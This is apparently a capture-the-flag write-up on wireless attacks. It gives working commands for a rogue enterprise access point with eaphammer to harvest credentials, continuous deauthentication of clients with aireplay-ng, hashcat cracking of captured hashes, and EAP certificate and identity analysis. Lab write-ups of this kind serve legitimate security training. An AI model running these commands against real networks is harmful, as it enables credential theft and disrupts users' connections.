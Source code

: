 Access the gateway and obtain the flag.

------------------------------------------------------------------------

## Challenge 18: wifi-corp (Enterprise)

We use **eaphammer** to simulate an Enterprise AP and harvest
credentials.

``` bash
sudo ./eaphammer --interface wlan0mon --channel 44 --auth wpa-eap --essid wifi-corp
```

Meanwhile, deauthenticate real clients:

``` bash
sudo aireplay-ng --deauth 0 -a <corp_bssid> wlan0mon
```

Captured hashes are cracked with hashcat:

``` bash
hashcat -m 5500 corp_hash.txt wordlist.txt
```

Some login hashes are obtained but connection issues may prevent full
access.

------------------------------------------------------------------------

## Extra Activity: Certificates and EAP

Using **Wireshark**, filter `eap` frames and analyze identity requests.\
We also use the provided tool `pcapFilter`:

``` bash
./pcapFilter -f capture.cap -C
```

This extracts the certificates used in authentication.

Later, we try **EAP_buster** with captures from `crEAP.py`.\
After setting up dependencies:

``` bash
git clone https://github.com/Tylous/Scapy-com
cd Scapy-com && sudo python setup.py install
```

Then run:

``` bash
./EAP_buster.sh -f wifi_global.cap
```

The tool reveals the flag.

------------------------------------------------------------------------

# Conclusion
